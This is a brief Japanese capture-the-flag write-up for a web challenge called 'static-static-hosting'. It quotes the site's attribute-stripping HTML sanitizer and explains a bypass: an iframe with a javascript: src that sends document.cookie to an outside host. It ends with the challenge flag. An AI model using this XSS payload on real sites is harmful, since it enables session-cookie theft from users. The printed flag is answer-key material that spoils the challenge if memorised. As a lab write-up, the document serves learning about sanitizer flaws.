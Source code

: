 # static-static-hosting (220 solves/ 435 points)

> Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me here
> Site: ...
> Note: The site is entirely static. Dirbuster will not be useful in solving it.

## solution

XSSを回避する方法が異なるだけで基本的なことはstatic-pastebinと同じ。

入力された文字列を表示する前に以下の処理が行われている

```javascript
function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```

```src, width, height, alt, class``以外の属性は削除され、scriptタグも削除される。
しかし、iframeタグを使うことができるので`<iframe src="javascript:window.location.href='https://example.com/?'+document.cookie>"`を入力してやれば良い。
あとはstatic-pastebinと同じようにadminにURLを踏ませればフラグが手に入る

```
flag{wh0_n33d5_d0mpur1fy}
```
